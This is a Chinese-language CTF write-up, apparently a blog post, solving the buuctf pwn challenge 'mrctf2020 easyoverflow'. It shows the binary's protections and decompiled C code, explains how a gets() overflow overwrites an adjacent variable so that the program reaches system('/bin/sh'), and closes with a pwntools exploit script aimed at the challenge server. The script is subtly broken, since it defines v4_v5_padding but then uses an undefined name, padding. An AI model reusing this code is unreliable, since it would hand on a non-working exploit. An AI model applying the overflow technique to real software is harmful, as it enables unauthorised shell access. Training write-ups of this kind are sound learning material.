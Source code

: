 ```yaml
---
author: 
  name: Zephyr
title: mrctf2020 easyoverflow
date: 2022-4-6 18:02:23
permalink: /pages/2e1547494524d1ab
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# mrctf2020 easyoverflow

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/mrctf2020_easyoverflow/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-70h]
  __int64 v5; // [rsp+30h] [rbp-40h]
  __int64 v6; // [rsp+38h] [rbp-38h]
  __int64 v7; // [rsp+40h] [rbp-30h]
  __int64 v8; // [rsp+48h] [rbp-28h]
  __int64 v9; // [rsp+50h] [rbp-20h]
  __int64 v10; // [rsp+58h] [rbp-18h]
  __int16 v11; // [rsp+60h] [rbp-10h]
  unsigned __int64 v12; // [rsp+68h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v5 = 7376685493371762026LL;
  v6 = 7440000900169689920LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0;
  gets(&v4, argv);
  if ( !(unsigned int)check((__int64)&v5) )
    exit(0);
  system("/bin/sh");
  return 0;
}
```

check函数如下：

```c
signed __int64 __fastcall check(__int64 a1)
{
  int i; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = strlen(fake_flag);
  for ( i = 0; ; ++i )
  {
    if ( i == v3 )
      return 1LL;
    if ( *(_BYTE *)(i + a1) != fake_flag[i] )
      break;
  }
  return 0LL;
}
```

## 思路分析

1. 目前信息：

   - `main`函数存在溢出点
   - `check`检查若`v5!=fake_flag`则程序退出
   - Canary found
   - NX enabled
   - PIE enabled
2. 思路：
   - 输入点在`v4`，用`v4`溢出修改`v5`为`fake_flag`的值就可获得`shell`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/mrctf2020_easyoverflow/mrctf2020_easyoverflow'
io = remote('node4.buuoj.cn', 25009)
# io = process(pwnfile)
elf = ELF(pwnfile)
v4_v5_padding = 0x30
payload = flat(['a'*padding, 'n0t_r3@11y_f1@g'])
io.sendline(payload)
io.interactive()
```

